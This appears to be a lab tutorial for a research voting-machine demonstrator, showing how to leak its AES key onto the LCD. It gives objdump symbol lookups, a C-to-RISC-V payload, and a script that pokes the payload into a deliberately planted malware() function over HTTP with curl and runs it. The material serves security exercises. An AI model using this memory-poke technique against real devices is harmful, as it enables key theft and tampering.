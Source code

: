 This is the simplest example of how to use the peek-poke server. This exploit walks through how to write the ballot box LCD display value to be the location of the AES key.

## Examine the SBB source code & use objdump

Looking at the `fetch_keys` function in the [SBB source code](../../source/crypto/crypto.c#L39), you see the comment:

```
   // we simply return addresses of the hard-coded keys that were linked
    // in at compile time, with the mock key returned in any situation
    // where one of the 3 "real" keys is not asked for
```

Let's go find that hard-coded location. In this example, you'll just look for the mock key. 

```
[nix-shell:~/voting-system]$ riscv32-unknown-elf-objdump -t default_ballot_box_sim.elf | grep "mock_key"
c0082178 l     O .rodata	00000020 mock_key
```

The first field, `c0082178` is the mock_key's memory location. (If this address is different in the output on your system, the source code has probably been updated since this document was written and you'll have to use your value to follow along with the rest of this example.)

For this example, let's get the mock_key to be displayed on the SBB's LCD display. The LCD display currently reads "Welcome, Voter!", so let's first find that string [in the source code](../../source/sbb/sbb_strings.c#L10):

```
const char *welcome_text = "Welcome, Voter!";
```

Great, now let's find the location of the `welcome_text` symbol in the ELF file:

```
[nix-shell:~/voting-system]$ riscv32-unknown-elf-objdump -t default_ballot_box_sim.elf | grep "welcome_text"
c0088258 g     O .sdata	00000004 welcome_text
```

You can see the welcome_text is at `0xc0088258`. 

Now let's write the address of mock_key to the welcome_text location. 

## Create RISC-V 32 bit assembly

You need the RISC-V 32 bit assembly that corresponds to writing the address of the mock_key to the welcome_text location; one tool that provides a helpful interface for doing this is using the online [godbolt compiler explorer.](https://godbolt.org/z/0vfCJw) There may be situations where it will be better to write a small amount of assembly by hand, but here it's easiest to use the compiler.

Let's write a C function that does what you want:

```
void exploit() {
    // get a pointer to the welcome_text
    int *x = (int *)0xc0088258;
    // write the address of the mock_key
    *x = 0xc0082178;
}
```

You can see the generated RISC-V 32 bit assembly in the pane to the right, and pick out the parts that aren't part of the function call setup / tear-down. Be careful as the highlighting on godbolt doesn't always correspond directly to the source code! 

The assembly you want is everything between the stack pointer (`sp`) manipulations:

```
lui a0, 786568
addi a0, a0, 600
sw a0, -12(s0)
lw a0, -12(s0)
lui a1, 786562
addi a1, a1, 376
sw a1, 0(a0)
```

Next, let's save this into a file called `payload.asm`, and get the binary (hex) representation of these instructions. You can then "load" this binary by writing it to the `malware()` function using the peek/poke server, and execute it by running `malware()`. 

## Craft our binary

To craft your desired binary, you need to invoke the RISC-V 32 bit assembler, and grab only the parts of the resulting ELF file that correspond to those instructions. The provided [`run_exploit.sh` script](../run_exploit.sh) will do this for you. 

Let's look at the contents of that script, and then below look at how to use it.

_You don't need to run the code in this section to follow along; it is easier to run the provided `run_exploit.sh` script, as is explained in the next section. Knowing these steps will be useful for other exploits._

The script first calls the assembler:
```
prefix=riscv32-unknown-elf-
tempDir=$(mktemp -d)
...
${prefix}as -o "$tempDir/exploit.elf" "$1"
```

to create an assembled ELF file, and then grab only the `.text` section to get the binary corresponding to your function body while avoiding all the other ELF formatting:

```
${prefix}objcopy -O binary --only-section=.text "$tempDir/exploit.elf" "$tempDir/payload.bin"
```

To `poke` the memory into the `malware()` function, you need to specify how many bytes to write; you can find the size of our binary using `du`:

```
size=$(du -b "$tempDir/payload.bin" | cut -f 1)
```

Finally, you need to call the peek/poke server twice: first to poke our binary into the body of the malware function, and again to run the malware function:

```
curl -v --data-binary @"$tempDir/payload.bin" --request PATCH http://$SBB_IP/poke/$malStartAddr/$size
curl -v http://$SBB_IP/run/0
```

## ./run_exploit.sh

To run `run_exploit.sh` you first need to set two environment variables.

The first is the IP address of the peek/poke server, which you can find published in the Voting Village.

The other is the address to which you want to write your binary payload in the malware function; one easy way to find where to write to is to look at the binary with `riscv32-unknown-elf-objdump -d`.

You should be able to find the `malware` function in the output of `objdump`. 
One complication is that the peek-poke server will only let you write 512 bytes past the beginning on the malware function. (See [here](https://gitlab-ext.galois.com/ssith/voting-system/blob/master/source/protocols/HTTP/peekpoke.c#L63))

So, you can grab the address where the `nop`s start, and add 0x200 to that address, since 512 = 0x200.  For example:

```
c001d170 <malware>:
c001d170:       fe010113                addi    sp,sp,-32
c001d174:       00812e23                sw      s0,28(sp)
c001d178:       02010413                addi    s0,sp,32
c001d17c:       fea42623                sw      a0,-20(s0)
c001d180:       feb42423                sw      a1,-24(s0)
c001d184:       00000013                nop
c001d188:       00000013                nop
c001d18c:       00000013                nop
...
```

Adding on the offset mandate by the server:
```
0xc001d184 + 0x200 = 0xc001d384
```

Set the values you've found as `SBB_IP` and `malware_start_addr`:

```
# don't copy this code directly, find them for your environment as described above
export SBB_IP=192.168.55.247
export malware_start_addr='0xc001d384'
```

Once you've set those two environment variables, you can run the script (which lives one directory down):

```
cd ..
./run_exploit.sh payload.asm
```

This will create the binary corresponding to our assembly instructions, copy that binary into the `malware()` function, and execute it.

## Recap

This example demonstrated how to find the (static) location of the AES key, and expose it by writing to a location which was displayed on the LCD display. To do this you:

* found the interesting pieces of data by inspecting the source code
* found their memory locations by searching the symbol table with `objdump`
* wrote a C function which rewrote data in the SBB code
* compiled it using a RISC-V 32 bit compiler
* ran `./run_exploit.sh` with our assembly as a payload. This:
    * created binary corresponding to the interesting part of the assembly using an assembler & objcopy
    * wrote our crafted binary to the malware function using the poke server
    * executed using malware function, which overwrote the memory using our binary code, by requesting that the server `run` the malware function

